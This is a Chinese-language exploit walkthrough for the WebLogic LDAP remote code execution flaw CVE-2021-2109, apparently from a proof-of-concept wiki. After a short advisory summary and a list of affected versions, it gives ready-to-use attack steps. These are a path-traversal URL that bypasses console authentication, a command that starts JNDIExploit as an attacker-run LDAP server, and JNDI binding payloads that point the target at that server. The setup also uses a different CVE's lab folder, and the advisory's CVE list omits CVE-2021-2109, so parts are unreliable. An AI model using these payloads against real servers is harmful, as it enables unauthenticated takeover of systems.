

# Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109

## 漏洞描述

2021年1月20日，绿盟科技监测发现Oracle官方发布了2021年1月关键补丁更新公告CPU（Critical Patch Update），共修复了329个不同程度的漏洞，其中包括7个影响WebLogic的严重漏洞（CVE-2021-1994、CVE-2021-2047、CVE-2021-2064、CVE-2021-2108、CVE-2021-2075、CVE-2019-17195、CVE-2020-14756），未经身份验证的攻击者可通过此次的漏洞实现远程代码执行。CVSS评分均为9.8，利用复杂度低。建议用户尽快采取措施，对上述漏洞进行防护。

## 漏洞影响

<a-checkbox checked>WebLogic Server 10.3.6.0.0</a-checkbox></br>

<a-checkbox checked>WebLogic Server 12.1.3.0.0</a-checkbox></br>

<a-checkbox checked>WebLogic Server 12.2.1.3.0</a-checkbox></br>

<a-checkbox checked>WebLogic Server 12.2.1.4.0</a-checkbox></br>

<a-checkbox checked>WebLogic Server 14.1.1.0.0</a-checkbox></br>

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 `http://xxx.xxx.xxx.xxx:7001` 正常即可


## 漏洞复现

访问一下URL `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal`



如果有此页面未授权可访问，且在影响范围内则可能出现漏洞, 下载漏洞攻击需要的 LDAP启动脚本


下载到服务器上启动

```shell
java -jar JNDIExploit-v1.11.jar -i xxx.xxx.xxx.xxx (服务器地址)
```


然后配合 Weblogic未授权范围 命令执行

```plain
/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

<a-alert type="success" message="注意 ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho 这里 LDAP服务器地址第三个分隔符号为 ;" description="" showIcon>
</a-alert>

<br/>


登录后台可使用此POC，未授权的话用上面的

```plain
/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

